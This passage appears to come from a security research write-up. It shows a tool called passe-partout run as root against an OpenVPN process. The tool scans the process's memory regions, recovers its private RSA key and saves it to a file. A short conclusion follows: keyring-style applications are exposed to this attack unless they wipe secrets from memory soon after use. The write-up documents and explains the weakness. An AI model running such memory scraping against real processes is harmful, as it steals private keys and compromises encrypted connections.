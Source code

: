 




## OpenVPN

The method is identical with OpenVPN:


```bash
  $ ps aux|grep openvpn
  root     30006  0.0  0.1   5116  3060 pts/25   S+   14:54   0:00 openvpn openvpn.config
  jb       31179  0.0  0.0   3056   824 pts/22   R+   15:02   0:00 grep --color openvpn
  $ sudo ./passe-partout 30006
  Target has pid 30006
  testing /lib/tls/i686/cmov/libc-2.10.1.so (0x251000)
  testing anonymous (0x252000)
  testing /lib/i686/cmov/libcrypto.so.0.9.8 (0x4ea000)
  testing anonymous (0x4f7000)
  testing /usr/lib/liblzo2.so.2.0.0 (0x747000)
  testing /lib/libz.so.1.2.3.3 (0x794000)
  testing /lib/tls/i686/cmov/libpthread-2.10.1.so (0x979000)
  testing anonymous (0x97a000)
  testing /lib/ld-2.10.1.so (0xc0f000)
  testing /lib/tls/i686/cmov/libdl-2.10.1.so (0xc52000)
  testing /lib/i686/cmov/libssl.so.0.9.8 (0xd82000)
  testing /usr/lib/libpkcs11-helper.so.1.0.0 (0xf7b000)
  testing /usr/sbin/openvpn (0x80c0000)
  testing anonymous (0x80c1000)
  testing [heap] (0x85c3000)
  [X] Valid RSA key found.
  [X] Key saved to file id_rsa-0.key
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
  [-] invalid DSA key.
  testing anonymous (0xb7754000)
  testing anonymous (0xb778f000)
  testing [stack] (0xbfdab000)
  done for pid 30006
```


The extraction is successfull, as shown by comparison of the extracted key with
the original key:




# Conclusion

The most important point here is the fact that any "keyring" application is
potentially vulnerable to this attack. The only possible protection would be to
delete secrets (in our case, keys) from memory immediatly after usage. This is
often done after some configurable delay. Using a low delay reduces the interest
of a keyring.
